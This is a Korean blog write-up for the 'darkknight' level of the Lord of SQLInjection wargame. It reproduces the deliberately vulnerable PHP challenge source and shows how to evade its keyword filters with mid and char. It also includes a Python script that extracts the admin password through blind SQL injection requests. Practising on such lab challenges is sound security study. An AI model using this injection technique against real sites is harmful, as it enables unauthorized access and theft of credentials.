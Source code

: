 ```yaml
---
layout: post
title: ! "[LOS] darknight"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - darknight
  - write-up
---
```


![]({{ site.baseurl }}/assets/posts/los/darknight.png)

`query : select id from prob_darkknight where id='guest' and pw='' and no=`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

darknight 문제는 substr, ascii가 필터링 된다.
기존 코드를 좀 수정해서

1. substr -> mid
2. ascii -> char

이렇게 바꿔주었다.

admin을 char함수로 표현하려면 `char(97,100,109,105,110)` 이 된다.

1. left : 문자의 왼쪽을 기준으로 일정 갯수를 가져온다.
2. mid : 문자의 지정한 시작 위치를 기준으로 일정 갯수를 가져온다.
3. right : 문자의 오른쪽을 기준으로 일정 갯수를 가져온다.

처음에 코드가 잘 안돌아갔는데 기존 코드는 string.ascii_letters를 이용해서 `for a in alpha` 이런식으로 돌게 했는데
이번 코드는 48부터 128까지 범위를 주고 `char(str(a))` 로 바꿔주었다.
출력을 할 때도 파이썬의 chr함수를 사용해 `chr(a)` 이렇게 출력해주었다.

```php
from requests import get
import string
from time import sleep

url="https://los.eagle-jump.org/darkknight_~~~.php"
cookies = dict(PHPSESSID="세션 아이디")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?pw=1&no=1 || length(pw) like "+str(i)
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is "+str(i))
        break
for i in range(1, length):
    for a in range(48,128):
        parameter ="?pw=1&no=1 || id like char(97,100,109,105,110) %26%26 mid(pw,"+str(i)+",1) like char("+str(a)+")"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> "+chr(a))
            result += chr(a)
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is"+result)
        print("\n")
```

![]({{ site.baseurl }}/assets/posts/los/darknight_result.png)

결과대로 `1C62BA6F` 를 `?pw=1C62BA6F` 를 입력했는데 안돼서 뭐지..? 했는데
소문자로 바꿔서 입력하니 풀렸다.

![]({{ site.baseurl }}/assets/posts/los/darknight_clear.png)
